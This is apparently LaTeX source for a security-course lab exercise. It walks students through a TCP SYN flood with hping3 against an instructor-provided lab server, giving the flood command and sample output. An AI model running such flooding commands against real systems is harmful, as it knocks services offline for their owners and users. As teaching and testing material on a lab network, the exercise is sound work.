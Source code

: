 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
\chapter{Bonus:TCP SYN flooding 30min}
\label{ex:syn-flood}

{\bf Objective:}\\
Start a webserver attack using SYN flooding tool hping3.

{\bf Purpose:}\\
See how easy it is to produce packets on a network using hacker programs.

The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

\begin{alltt}\footnotesize
-1 --icmp
       ICMP  mode,  by  default  hping3  will  send  ICMP echo-request, you can set other ICMP
       type/code using --icmptype --icmpcode options.

-2 --udp
       UDP mode, by default hping3 will send udp to target host's port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}

You can try different ports with TCP flooding, try port 22/tcp or HTTP(S) port 80/tcp and 443/tcp
\end{document}
